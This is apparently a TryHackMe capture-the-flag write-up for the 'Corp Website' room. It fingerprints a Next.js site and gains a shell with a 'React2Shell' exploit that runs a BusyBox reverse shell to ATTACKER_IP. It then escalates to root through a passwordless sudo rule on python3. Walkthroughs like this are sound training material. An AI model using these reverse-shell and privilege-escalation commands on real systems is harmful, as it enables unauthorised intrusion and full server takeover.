







This is a writeup for Corp Website on TryHackMe. The room presents a corporate web application and asks us to identify the initial vulnerability, gain access to the server, and escalate to root.

./01 Reconnaissance
After starting the instance, I opened the target and found the Romance & Co. corporate website.

Inspecting the page source revealed two useful details: an HTML comment containing the value below and several asset paths beginning with /_next/, which identify the application as Next.js.
<!--3WpzTMYEK9QGOeqIBQxrR-->
./02 Initial Access
Because the target was running Next.js, I tested it with a React2Shell proof of concept. The application was vulnerable, and the exploit executed a BusyBox reverse-shell payload against my listener.
python3 react2shell.py --host TARGET_IP --port 3000 \
"busybox nc ATTACKER_IP 9090 -e sh"
nc -lvnp 9090
Running whoami confirmed that the shell belonged to daniel. From there, I read /home/daniel/user.txt to obtain the user flag.

./03 Privilege Escalation
Next, I checked Daniel's sudo permissions without prompting for a password:
sudo -n -lThe result showed that Daniel could run /usr/bin/python3 as root without a password.

Python can replace its process with a shell. Running it through sudo therefore starts that shell as root:
sudo /usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh")'
Finally, I read /root/root.txt to retrieve the root flag.
The attack chain consists of two issues: a vulnerable Next.js application that allows remote code execution and an overly permissive sudo rule that lets Daniel run Python as root.